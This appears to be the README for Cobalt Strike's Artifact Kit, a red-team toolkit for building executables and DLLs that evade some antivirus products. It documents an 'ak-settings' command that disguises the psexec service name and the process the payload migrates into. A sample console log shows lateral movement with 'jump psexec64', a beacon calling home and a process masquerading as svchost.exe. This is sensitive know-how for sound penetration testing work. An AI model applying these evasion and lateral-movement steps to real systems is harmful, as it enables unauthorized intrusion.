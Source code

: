 
This package contains source code for Cobalt Strike's Artifact Kit. This kit
is designed to ease the development of antivirus safe artifacts.

Cobalt Strike uses artifacts from this kit to generate executables and DLLs
that are safe from some antivirus products. Load the included artifacts.cna
script to force Cobalt Strike to use your artifacts over the built-in ones.

Cobalt Strike uses these artifacts in the following places:

- Attacks -> Packages -> Windows Executable
- Attacks -> Packages -> Windows Executable (S)
- Attacks -> Web Drive-by -> Scripted Web Delivery (bitsadmin and exe)
- Beacon's 'elevate svc-exe' command
- Beacon's 'jump psexec' and 'jump psexec64' commands

#### Support for artifact kit settings 
The artifact kit has implemented a new alias 'ak-settings' to support the
ability to modify the following settings:

- service - Modify the service name that is returned from the PSEXEC_SERVICE hook
- spawnto_x86 - Modify the process used for migration by the SERVICE EXE artifact.
- spawnto_x64 - Modify the process used for migration by the SERVICE EXE artifact.

The spawnto_x86 and spawnto_x64 settings will attempt to initialize with the 
.post-ex.spawnto_[x86|x64] settings in the Malleable C2 profile, however there
are some conditions that need to be met.  When those conditions occur a valid
default value will be used.  The settings do not support values longer than 63
characters, empty value, and environment variable substitutions.

In previous versions of the artifact kit these settings could have been updated
in the source code and then rebuild the artifact kit.  Now with the 'ak-settings'
command an operator can modify these settings as needed to generate an artifact.

Example:
```
03/31 11:14:13 beacon> ak-settings
03/31 11:14:13 [*] artifact kit settings:
03/31 11:14:13 [*]    service     = 'updatesvc'
03/31 11:14:13 [*]    spawnto_x86 = 'C:\Windows\SysWOW64\dllhost.exe'
03/31 11:14:13 [*]    spawnto_x64 = 'C:\Windows\System32\svchost.exe'
03/31 11:16:02 beacon> ak-settings service timesvc
03/31 11:16:02 [*] Updating the psexec service name to 'timesvc'
03/31 11:16:02 [*] artifact kit settings:
03/31 11:16:02 [*]    service     = 'timesvc'
03/31 11:16:02 [*]    spawnto_x86 = 'C:\Windows\SysWOW64\dllhost.exe'
03/31 11:16:02 [*]    spawnto_x64 = 'C:\Windows\System32\svchost.exe'
03/31 11:18:45 beacon> jump psexec64 TARGET smb
03/31 11:18:45 [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\xyz) on TARGET via Service Control Manager (\\TARGET\ADMIN$\timesvc.exe)
03/31 11:18:49 [+] host called home, sent: 295101 bytes
03/31 11:18:52 [+] received output:
Started service timesvc on TARGET
03/31 11:18:52 [+] established link to child beacon: 111.22.333.444
```
You will notice that the new beacon will be running under the process 'svchost.exe'.
